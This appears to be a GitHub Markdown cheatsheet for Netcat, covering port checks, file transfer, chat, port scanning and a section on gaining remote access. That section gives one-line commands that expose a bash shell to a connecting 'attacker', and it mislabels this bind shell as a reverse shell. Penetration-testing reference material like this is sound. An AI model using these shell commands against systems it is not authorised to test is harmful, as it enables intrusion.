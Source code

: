 # 🖧 Netcat Comprehensive Cheatsheet

## 🔹 Introduction
Netcat (**nc**) is a powerful **networking utility** used for **port scanning, data transfer, debugging, and creating reverse shells**.

---

## 🔹 Installing Netcat
```sh
# Install on Ubuntu/Debian
sudo apt update && sudo apt install netcat -y

# Install on macOS
brew install netcat

# Verify installation
nc -h
```

---

## 🔹 Basic Usage
### ✅ Check if a Port is Open
```sh
nc -zv example.com 80
```

### ✅ Listen for Incoming Connections
```sh
nc -lvp 4444
```

### ✅ Connect to a Listening Port
```sh
nc 192.168.1.10 4444
```

---

## 🔹 File Transfer
### ✅ Send a File
```sh
nc -w 3 192.168.1.10 4444 < file.txt
```

### ✅ Receive a File
```sh
nc -lvp 4444 > file.txt
```

---

## 🔹 Reverse Shell (Gaining Remote Access)
### ✅ Victim Machine (Listener Mode)
```sh
nc -lvp 4444 -e /bin/bash
```

### ✅ Attacker Machine (Connect to Victim)
```sh
nc 192.168.1.10 4444
```

---

## 🔹 Port Scanning
### ✅ Scan for Open Ports
```sh
nc -zv 192.168.1.1 1-1000
```

---

## 🔹 Chat Between Two Systems
### ✅ System 1 (Listener)
```sh
nc -lvp 4444
```

### ✅ System 2 (Connect to Listener)
```sh
nc 192.168.1.10 4444
```

Type messages and press **Enter** to communicate.

---

## 🔹 Best Practices
- **Use `-zv` for non-intrusive port scanning.**
- **Use encryption (OpenSSL) for secure transfers.**
- **Always verify connections to prevent unauthorized access.**
- **Use Netcat responsibly in penetration testing scenarios.**

---
